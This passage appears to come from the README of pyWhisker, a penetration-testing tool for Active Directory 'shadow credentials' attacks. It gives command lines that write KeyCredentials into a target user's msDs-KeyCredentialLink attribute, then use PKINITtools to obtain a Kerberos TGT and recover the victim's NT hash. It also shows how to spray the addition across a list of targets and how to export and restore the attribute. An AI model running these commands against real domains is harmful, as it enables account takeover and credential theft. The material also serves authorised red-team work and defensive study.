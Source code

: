 ![](./.assets/add_pfx.png)

Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```

![](./.assets/add_pfx_gettgtnthash.png)

### Example with the PEM format

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename test2 --export PEM
```

![](./.assets/add_pem.png)

Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```

![](./.assets/add_pem_gettgtnthash.png)

## Spray new values
pyWhisker can chain multiple KeyCredentials additions, to a set of targets, i.e. spray (if the credentials used have the right permissions).

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target-list targetlist.txt --action "spray"
```

## Import and export

KeyCredentials stored in the `msDs-KeyCredentialLink` attribute can be parsed, structured and saved as JSON.

![](./.assets/export.png)

The JSON export can then be used to restore the `msDs-KeyCredentialLink` attribute in the state it was at the time of export.
